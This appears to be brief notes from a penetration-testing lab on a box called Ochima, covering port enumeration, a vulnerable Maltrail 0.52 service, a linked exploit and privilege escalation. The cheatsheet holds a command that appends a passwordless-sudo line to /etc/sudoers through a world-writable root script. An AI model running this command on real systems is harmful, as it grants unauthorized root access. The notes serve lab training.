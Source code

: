 # Ochima \[Inter]

## Report



### Hint

Our enumeration lil washed cus we on data pls excuse

## Cheatsheet

```
echo ‘echo “[user] ALL=(ALL) NOPASSWD: ALL” >> /etc/sudoers’ >> etc_Backup.sh
Reverse shell only worked for a port open on their side [80 and 8338]
```

## Loot

### Enumeration

192.168.137.32

22,80,8338

#### 8338

Maltrail/0.52

### Attack Vectors

{% embed url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

### PrivEsc

-rwxrwxrwx 1 root root 54 Dec 11 2023 etc\_Backup.sh

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

### Creds

None

### Proof

None
